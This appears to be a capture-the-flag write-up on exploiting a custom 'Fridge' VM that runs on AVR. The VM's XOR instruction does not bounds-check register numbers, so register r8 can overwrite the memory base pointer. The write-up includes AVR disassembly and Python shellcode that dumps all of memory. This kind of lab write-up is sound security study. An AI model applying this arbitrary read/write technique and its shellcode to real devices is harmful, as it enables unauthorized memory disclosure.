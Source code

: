 ```
   0x12a4:      ld      r0, X+
   0x12a6:      ld      r27, X
   0x12a8:      mov     r26, r0
   0x12aa:      eor     r24, r20
   0x12ac:      eor     r25, r21
   0x12ae:      eor     r26, r22
   0x12b0:      eor     r27, r23
   0x12b2:      st      Z, r24
   0x12b4:      std     Z+1, r25        ; 0x01
   0x12b6:      std     Z+2, r26        ; 0x02
   0x12b8:      std     Z+3, r27        ; 0x03
```

The XOR opcode is encoded as follows: ```0a<r1><r2>```, for example ```0a25``` means ```XOR r2, r5``` the flaw is that in the virtual architecture only 8 registers exist (r0-r7) however we can specify registers up to 0xf no check is done. The source and destination registry number are simply multiplied by 4 and added to a base value. This means we can overwrite values in memory using the XOR instruction.

The memory layout is as follows:

```
0x59a = r0
0x59e = r1
0x5a2 = r2
0x5a6 = r3
0x5aa = r4
0x5ae = r5
0x5b2 = r6
0x5b6 = r7
0x5ba = r8 = base address for MOV r, [address]
```

So by writing to r8 we can overwrite the base address for VM memory access. After changing this base address we can read and write arbitrary memory using the MOV r, [address] and MOV [address], r instructions.

In order to work with the Fridge architecture in a more efficient way I wrote a [small assembler](asm.py) that can be used to craft shellcode.

Using this assembler we can write shellcode that dumps the entire memory by setting the base address pointer to 0, dumping 0x100 bytes and then increasing the base address pointer by 0x100.

```
from asm import *
r = ""
r += mov(r5,r8)
# r5 now contains the base address
r += label('inc_mem_base',r)
r += xor(r4,r4)
r += movh(r4,0x1)
r += add(r5,r4)
r += xor(r8,r8)
r += xor(r8,r5)

r += xor(r1,r1)
r += movl(r1,0x100)
r += xor(r3,r3)
r += xor(r4,r4)
r += movl(r4,1)
r += label('dump',r)
r += lodsb(r2,r3)
r += write(r2)
r += add(r3,r4) # r3 += 1
r += cmp(r3,r1) # 0x100
r += jnz('dump')
r += jmp('inc_mem_base')
```